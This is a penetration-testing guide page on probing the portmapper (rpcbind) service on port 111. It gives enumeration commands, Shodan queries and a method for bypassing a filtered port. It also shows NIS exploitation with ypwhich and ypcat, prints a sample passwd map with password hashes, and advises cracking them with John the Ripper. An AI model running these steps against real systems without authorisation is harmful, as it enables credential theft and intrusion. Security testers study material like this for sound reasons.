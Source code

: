111/TCP/UDP - Pentesting Portmapper
Basic Information

Provides information between Unix based systems. Port is often probed, it can be used to fingerprint the Nix OS, and to obtain information about available services. Port used with NFS, NIS, or any rpc-based service.

Default port: 111/TCP/UDP, 32771 in Oracle Solaris

PORT    STATE SERVICE
111/tcp open  rpcbind

Enumeration

rpcinfo irked.htb
nmap -sSUC -p111 192.168.10.1

Sometimes it doesn't give you any information, in other occasions you will get something like this:  
Shodan

    port:111 portmap

RPCBind + NFS

If you find the service NFS then probably you will be able to list and download(and maybe upload) files:

Read 2049 - Pentesting NFS service to learn more about how to test this protocol.
NIS

If you find the service ypbindrunning:

You can try to exploit it. Anyway, first of all you will need to guess the NIS "domain name" of the machine (when NIS is installed it's configured a "domain name") and without knowing this domain name you cannot do anything.


Upon obtaining the NIS domain name for the environment (example.org in this case), use the ypwhich command to ping the NIS server and ypcat to obtain sensitive material. You should feed encrypted password hashes into John the Ripper, and once cracked, you can use it to evaluate system access and privileges.

root@kali:~# apt-get install nis
root@kali:~# ypwhich -d example.org 192.168.10.1
potatohead.example.org
root@kali:~# ypcat –d example.org –h 192.168.10.1 passwd.byname
tiff:noR7Bk6FdgcZg:218:101::/export/home/tiff:/bin/bash 
katykat:d.K5tGUWCJfQM:2099:102::/export/home/katykat:/bin/bash 
james:i0na7pfgtxi42:332:100::/export/home/james:/bin/tcsh 
florent:nUNzkxYF0Hbmk:199:100::/export/home/florent:/bin/csh 
dave:pzg1026SzQlwc:182:100::/export/home/dave:/bin/bash 
yumi:ZEadZ3ZaW4v9.:1377:160::/export/home/yumi:/bin/bash

Master file
	

Map(s)
	

Notes

/etc/hosts
	

hosts.byname, hosts.byaddr
	

Contains hostnames and IP details

/etc/passwd
	

passwd.byname, passwd.byuid
	

NIS user password file

/etc/group
	

group.byname, group.bygid
	

NIS group file

/usr/lib/aliases
	

mail.aliases
	

Details mail aliases
RPC Users

If you find the rusersd service listed like this:

You could enumerate users of the box. To learn how read 1026 - Pentesting Rsusersd.
Bypass Filtered Portmapper port

If during a nmap scan you see open ports like NFS but the port 111 is filtered, you won't be able to exploit those ports.
But, if you can simulate a locally a portmapper service and you tunnel the NFS port from your machine to the victim one, you will be able to use regular tools to exploit those services.
More information in https://medium.com/@sebnemK/how-to-bypass-filtered-portmapper-port-111-27cee52416bc​
Shodan

    Portmap
